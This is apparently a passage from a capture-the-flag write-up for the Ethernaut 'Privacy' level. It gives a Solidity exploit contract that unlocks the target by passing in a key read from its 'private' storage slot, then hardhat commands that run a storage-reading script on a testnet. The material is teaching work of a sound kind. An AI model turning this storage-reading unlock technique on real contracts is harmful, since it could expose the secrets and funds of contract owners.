 ### Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPrivacy {
    function locked() external view returns (bool);
    function unlock(bytes16 _key) external;
}

contract PrivacyExploit {
    address public owner;
    address public privacyAddress;
    
    constructor(address _privacyAddress) {
        owner = msg.sender;
        privacyAddress = _privacyAddress;
    }
    
    function unlockPrivacy(bytes32 storageData) external {
        require(msg.sender == owner, "Only owner can call this function");
        
        // Convert bytes32 to bytes16 as required by the unlock function
        bytes16 key = bytes16(storageData);
        
        // Call the unlock function with the extracted key
        IPrivacy(privacyAddress).unlock(key);
        
        // Verify the contract is unlocked
        bool isLocked = IPrivacy(privacyAddress).locked();
        require(!isLocked, "Failed to unlock the contract");
    }
    
    function checkLocked() external view returns (bool) {
        return IPrivacy(privacyAddress).locked();
    }
}
```

## Step-by-Step Solution Guide

### Option 1: Direct Storage Access Method

This is the simplest approach, similar to the Vault challenge:

#### 1. Read the Storage and Unlock the Contract Directly

You can solve this challenge with a single script that reads the private data from storage and unlocks the contract:

```shell
# Run with default contract address
npx hardhat run scripts/level-12-privacy/read-privacy-key.ts --network sepolia

# Or specify a target contract address
CONTRACT_ADDRESS=0xYourPrivacyAddress npx hardhat run scripts/level-12-privacy/read-privacy-key.ts --network sepolia
```
